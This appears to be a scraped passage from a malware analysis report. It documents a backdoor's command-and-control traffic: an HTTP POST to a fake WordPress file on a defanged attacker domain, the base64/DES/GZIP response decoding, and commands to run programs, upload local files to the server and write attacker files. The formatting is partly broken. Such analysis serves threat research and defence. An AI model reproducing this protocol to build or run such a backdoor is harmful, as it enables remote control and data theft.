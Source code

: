 ------2c0272b325864985abf2677460a9b07a
Content-Disposition: form-data; name="adv"
%ENCODED_DATA%
------2c0272b325864985abf2677460a9b07a




123456789101112131415161718

POST /wp-includes/class-wp-network-statistics.php HTTP/1.1User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101Firefox/68.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Content-Type: multipart/form-data; boundary=----2c0272b325864985abf2677460a9b07aAccept-Language: en-GB,en;q=0.5Upgrade-Insecure-Requests: 1Cache-Control: max-age=0, no-cachePragma: no-cacheHost: finasteridehair[.]comContent-Length: 154Expect: 100-continue ------2c0272b325864985abf2677460a9b07aContent-Disposition: form-data; name="adv"%ENCODED_DATA% ------2c0272b325864985abf2677460a9b07a




A valid response should in turn be formed in the following way:










1






The response is decoded with base64: the resulting payload is an array of strings, where the used delimiter is the standard Windows new line sequence – “\r\n”. Each line is decoded again with base64, decrypted with DES, and decompressed with the GZIP algorithm.
Each command has the following structure:

Command structure
The command type must be equal to one of the following codes:



Command
Description


00
Execute – Execute an arbitrary program with the specified arguments. If the attacker sets the NoWait flag to False, the malware redirects the process output, reads the data and forwards them to the C2.


01
Download – Read a file from the local system and upload it to the server.


02
Upload – Save received data to the local system using the filepath specified by the attacker.


